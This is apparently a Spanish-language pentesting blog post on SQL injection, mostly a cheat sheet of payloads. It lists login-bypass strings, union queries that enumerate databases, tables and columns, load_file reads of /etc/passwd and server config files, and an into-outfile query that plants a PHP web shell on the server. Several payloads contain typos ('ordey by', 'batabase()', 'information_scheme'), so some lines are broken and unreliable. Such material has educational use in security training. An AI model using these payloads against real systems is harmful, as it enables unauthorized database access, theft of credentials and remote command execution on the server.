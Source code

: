 ```yaml
---
layout: single
title: SQL Injection.
excerpt: "SQL Injection es una vulnerabilidad que te permite realizar consultas o peticiones a la base de datos de un sitio web pudiendo extraer información delicada como el nombre de usuarios, emails, contraseñas y demás información que este almacenada dentro de la base de datos."
date: 2022-11-28
classes: wide
header:
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
  - OWASP
tags:
  - SQLI
  - Login
  - Web
  - URL Parameters
---
```

Es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que **no validan adecuadamente** la entrada del usuario en la consulta SQL que se envía a la base de datos. Los atacantes pueden utilizar esta técnica para ejecutar consultas SQL maliciosas y obtener información confidencial, como nombres de usuario, contraseñas y otra información almacenada en la base de datos.
<br>
Las inyecciones SQL se producen cuando los atacantes insertan código SQL malicioso en los campos de entrada de una aplicación web. Si la aplicación no valida adecuadamente la entrada del usuario, la consulta SQL maliciosa se ejecutará en la base de datos, lo que permitirá al atacante obtener información confidencial o incluso controlar la base de datos.
<br><br>
**Objetivo: Obtener información confidencial almacenada en una base de datos.**
<br>
Nota: No todas la queries inician con comillas. Tu input se debe reflejar en el sitio web para iniciar las inyecciones.
SQLI based error.
<br><br>
Son peticiones que se realizan a la base de datos y si el servidor te interpreta la query como output. Por lo regular estas consultas se realizan en paneles de login para burlarlo y ganar acceso al sistema sin proporcionar contraseña en caso de que no este sanitisado y posteriormente enumerar las bases de datos en uso.

Si como output recibes un 1 con estas consultas es por que se acontece un SQLI based error.
```
' or 1=1-- -
' and 1=1-- -
```
```
' ordey by 100-- -					-> Con esta query puedes descifrar el número de tablas en una base de datos.
' union select batabase()-- -           		-> Mostrar el nombre de la base de datos en uso.
' union select version()-- -            		-> Ver la versión de la base de datos que esta en uso.
' union select user()-- -           			-> Ver el usuario administrador de la base de datos.  
' union load_file("/etc/passwd")-- -    		-> Listar archivos del sistema como el /etc/passwd o el /etc/shadow
' union load_file("/var/www/html/config.php")-- -	-> Listar la config del servidor
```

Enumerar el nombre de las bases de datos registrados en el sistema.
```
    ' union select schema_name from information_schema.schemata-- -
```


Iterar sobre las DB(0,1 | 1,2, | 1,3, | 2,1 | 2,2 | etc...)
```
    ' union select schema_name from information_scheme.schemata limit 0,1-- - 
```


Enumerar todas las bases de datos existentes en el sistema.
```
    ' union select group_concat(<schema_name>) from information_schema.schemata-- -   
```


Mostrar las tablas de una base de datos.
```
    ' union select group_concat(table_name) from information_schema.tables where table_schema="<name_DB>"-- -
```


Mostrar las columnas de una base de datos.
```
    ' union select group_concat(<column_name>) from information_schema.columns where table_schema="<name_DB>" and 
    table_name="<table_name>"-- -
```


Mostrar tabla y columna de la base de datos separados por ":".
```
    ' union select group_concat(table_name,":",column_name) from information_schema.columns where table_schema="name_D
"-- -
```


Mostrar las filas (contenido) de una tabla.(0x3a representa el ":" url encode).
```
    ' union select group_concat(fila1,0x3a,fila2) from name_table-- -
```


Depositar contenido en una ruta para saber si puedes subir una web shell.
```
    ' union select "probando" into outfile "/var/www/html/prueba.txt"-- -
```


Depositar una webshell dentro de un sitio web.
```
    ' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -
```


